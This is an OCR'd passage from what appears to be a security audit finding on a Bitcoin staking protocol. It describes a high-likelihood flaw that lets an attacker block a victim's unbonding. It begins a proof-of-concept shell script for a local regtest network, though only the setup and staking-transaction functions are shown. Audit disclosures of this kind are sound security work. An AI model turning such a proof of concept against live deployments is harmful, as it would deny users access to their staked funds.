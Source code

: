 **Likelihood:** As any user can this as long as they know the public key of their victim, I would rate this as a high likelihood issue. 

**Proof of concept:** The following proof of concept is a modified version of the provided demo script for the demo. It shows the issue with one wallet, where the first transaction cannot be unbonded if another one gets unbonded with the first transaction hash. 


In order to execute it, please add it to a file poc_denial.sh in the same location as btcstaking-demo.sh. Then start the testnet with the command provided in the readm: make start-deployment-btcstakingphase1-bitcoind. Once the system has started, please run the PoC by executing chmod +x poc_denial.sh and then ./poc_denial.sh. In this proof of concept, Eve will be able to unbond her bitcoin but Alice's honest call to unbond will fail. 

- !/bin/sh RED='\\033[0;31m' GREEN='\\033[0;32m' YELLOW='\\033[0;33m' BLUE='\\033[0;34m' MAGENTA='\\033[0;35m' NC='\\033[0m' # No Color 

  BTCUSER=\"rpcuser\" BTCPASSWORD=\"rpcpass\" BTCWALLET=\"btcstaker\" BTCWALLETPASS=\"walletpass\" BTCCMD=\"bitcoin-cli -regtest -rpcuser=$BTCUSER -rpcpassword=$BTCPASSWORD -rpcwallet=$BTCWALLET\" BTCCLI=\"docker exec bitcoindsim /bin/sh -c \" LOCATE=$(dirname \"$(realpath \"$0\")\") DIR=\"$LOCATE/.testnets/demo\" 

- The first transaction will be used to test the withdraw path 

  init() { echo \"Wait a bit for bitcoind regtest network to initialize..\" # sleep 25 mkdir -p $DIR echo \"$YELLOW Start End to End Test $NC\" } 

  get_all_transactions() { echo \"getting all data from mongoDB\" result=$(docker exec mongodb /bin/sh -c \"mongosh staking-api-service --eval ,→ 'JSON.stringify(db.delegations.find().toArray(), null, 2)'\") 

  echo $result } 

  create_staking_tx() { staking_amount=$1 staking_time=$2 folder=$DIR/$staking_amount staker_pk=$($BTCCLI \"$BTCCMD listunspent\" | jq -r '.[0].desc | split(\"]\") | .[1] | split(\")\") | .[0] | ,→ .[2:]') unsigned_staking_tx_hex=$(docker exec unbonding-pipeline /bin/sh -c \"cli-tools create-phase1-staking-tx \\ --magic-bytes 62627434 \\ --staker-pk $staker_pk \\ --staking-amount $staking_amount \\ --staking-time $staking_time \\ --covenant-committee-pks 0342301c4fdb5b1ab27a80a04d95c782f720874265889412a80d270feeb456f1f7 \\ --covenant-committee-pks 03a4d2276a2a09f0e14d6a74901fec0aab3d1edf0dd22a690260acca48f5d5b3c0 \\ --covenant-committee-pks 02707f3d6bf2334ecb7c336fc7babd400afa9132a34f84406b28865d06e0ba81e8 \\ --covenant-quorum 2 \\ --network regtest \\ --finality-provider-pk 03d5a0bb72d71993e435d6c5a70e2aa4db500a62cfaae33c56050deefee64ec0\" | jq ,→ .staking_tx_hex) 

  # echo \"Sign the staking transactions through bitcoind wallet\" unsigned_staking_tx_hex=$($BTCCLI \"$BTCCMD \\ fundrawtransaction $unsigned_staking_tx_hex \\ '{\\\"feeRate\\\": 0.00001, \\\"lockUnspents\\\": true}' \" | jq .hex) 

  # Unlock the wallet $BTCCLI \"$BTCCMD walletpassphrase $BTCWALLETPASS 600\" 

  # echo \"Sign the staking transactions through the Bitcoin wallet connection\" staking_tx_hex=$($BTCCLI \"$BTCCMD signrawtransactionwithwallet $unsigned_staking_tx_hex\" | jq '.hex') # echo \"Send the staking transactions to bitcoind regtest\" staking_txid=$($BTCCLI \"$BTCCMD sendrawtransaction $staking_tx_hex\") mkdir -p $folder echo \"$staking_tx_hex\" > $folder/tx_hex BTC=$(($staking_amount / 100000000)) echo \"Sign and send a staking transaction with stake: $BTC BTC and staking term: $staking_time blocks\" 
